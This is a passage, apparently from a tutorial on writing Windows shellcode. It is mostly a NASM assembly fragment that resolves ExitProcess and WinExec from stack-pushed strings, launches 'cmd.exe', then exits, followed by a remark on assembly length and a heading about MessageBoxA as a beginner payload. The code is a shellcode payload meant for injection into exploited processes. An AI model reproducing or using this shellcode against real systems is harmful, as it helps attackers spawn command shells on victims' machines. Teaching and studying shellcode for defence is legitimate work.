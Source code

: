 ```nasm
push ecx
push ebx

call edx
;-----------------------
;finding address of ExitProcess
xor ecx,ecx
push ecx
push 0x00737365
push 0x636f7250
push 0x74697845

mov ecx,esp

push ecx
push edi

xor edi,edi
mov edi,eax ;address of WinExec

call esi

;---------------

xor esi,esi
push eax
pop esi ;address of ExitProcess
;-------------------
;calling winexec
xor ecx,ecx
push ecx
push 0x00657865
push 0x2e646d63

mov ecx,esp

push 0
push ecx

call edi

;--------------
;exiting
push 0
call esi
```

Here, what we can do in C/C++ in less than five lines of code, will take over one hundred lines of code in Assembly.

## Why `MessageBoxA()` is a "Solid" Beginner Payload
